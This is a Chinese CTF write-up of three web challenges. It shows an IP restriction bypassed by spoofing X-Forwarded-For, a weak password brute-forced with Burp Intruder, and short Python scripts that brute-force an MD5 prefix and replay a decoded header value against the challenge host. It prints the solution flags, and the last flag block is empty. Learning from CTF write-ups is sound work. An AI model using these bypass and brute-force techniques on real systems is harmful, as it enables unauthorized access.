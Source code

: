 ## web6
随便输入用户名admin和密码123456，然后提交，发现返回”IP禁止访问，请联系本地管理员登陆，IP已被记录“。想到要用X-Forwarded-For:127.0.0.1。

burpsuite抓包，加上X-Forwarded-For:127.0.0.1，再随便提交就没有报IP禁止了。

然后将这个加了XFF的包发送到Intruder进行弱密爆破，可以得到密码为test123。

可以在返回包中看到The flag is: 85ff2ee4171396724bae20c0bd851f6b
所以flag为
```
flag{85ff2ee4171396724bae20c0bd851f6b}
```

## web11
根据提示打开链接http://123.206.31.85:3030/robots.txt 查询robots.txt文件，得知还有shell.php文件，访问http://123.206.31.85:3030/shell.php 得到网页内容。

需要在短时间内找出一个字符串，使md5值前6位与网页中给出的一致，查看源码得知是要get请求提交参数password。编写脚本如下：
```python
import hashlib
import requests
import re

s = requests.session()
response = s.get("http://123.206.31.85:3030/shell.php")

data = re.findall("\), 0, 6\) = (.*?)<", response.text, re.S)[0]
print(data)
for i in range(1000000):
    m = hashlib.md5()
    m.update(str(i).encode('utf-8'))
    if m.hexdigest().startswith(data):
        print(str(i))
        print(m.hexdigest())
        break

response = s.get("http://123.206.31.85:3030/shell.php?password={}".format(str(i)))
print(response.text)
```
得到flag为
```
flag{e2f86fb5f75da4999e6f4957d89aaca0}
```

## web13
随便填写，然后burpsuite抓包，发现返回包头中有一个password字段，看起来是base64，进行解码得到flag，但提交失败，应该是假的flag。

而且burpsuite重复发送几次发现password返回结果都不一样，所以一定不是这个flag，可能需要把这个假的flag中的花括号里面内容post提交，编写脚本（因为动态flag通常有时效，还是用脚本速战速决）后返回得到flag，这个才是真正的flag。
脚本如下：
```python
import requests
import base64

s = requests.session()
response = s.get("http://123.206.31.85:10013/index.php")
raw_password = response.headers['Password']
password = base64.b64decode(raw_password.encode('utf-8')).decode('utf-8')
print(password)

response = s.post("http://123.206.31.85:10013/index.php", data={"password": password[5:-1]})
print(response.text)
```
得到flag为
```
```